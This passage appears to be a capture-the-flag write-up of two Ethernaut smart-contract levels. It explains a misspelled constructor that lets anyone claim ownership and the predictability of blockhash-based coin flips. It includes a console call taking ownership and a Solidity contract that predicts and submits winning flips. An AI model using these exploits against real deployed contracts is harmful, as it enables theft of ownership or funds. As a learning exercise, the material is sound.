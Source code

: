 # 2. Fallout

Well, this was an easy one if you spot the difference. The function which is marked as a constructor for the contract is actually a normal public function because of the typo in its spelling. It is `Fal1out()` instead of `Fallout()`. So, let’s simply call this function to become the owner.

```jsx
> await contract.Fal1out({value:"10"})
```

# 3. Coin Flip

The `flip()` is using the current block number to decide the side of the coin, so the random-seeming function is not really random. We can access the block number in a separate smart contract and predict the output of the `flip()`. The only thing we need to take care of is this piece of code.

```jsx
if (lastHash == blockValue) {
      revert();
    }
```

So you cannot use a for loop and call the `flip()` 10 times in a single transaction since that transaction will be written in a single block and in the second iteration of the loop the **lastHash** will become equal to the **blockValue** resulting in a revert. Let’s quickly write a contract on Remix.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./CoinFlip.sol";

contract Test {
    using SafeMath for uint256;
    CoinFlip public coinFlip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 public currNumber = 0;

    constructor(address conFlipAddress) public {
        coinFlip = CoinFlip(conFlipAddress);
    }

    function IncreaseItBy1() public {
        coinFlip.flip(getBool());
    }

    function getBool() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip1 = blockValue.div(FACTOR);
        bool side = coinFlip1 == 1 ? true : false;
        return side;
    }
}
```
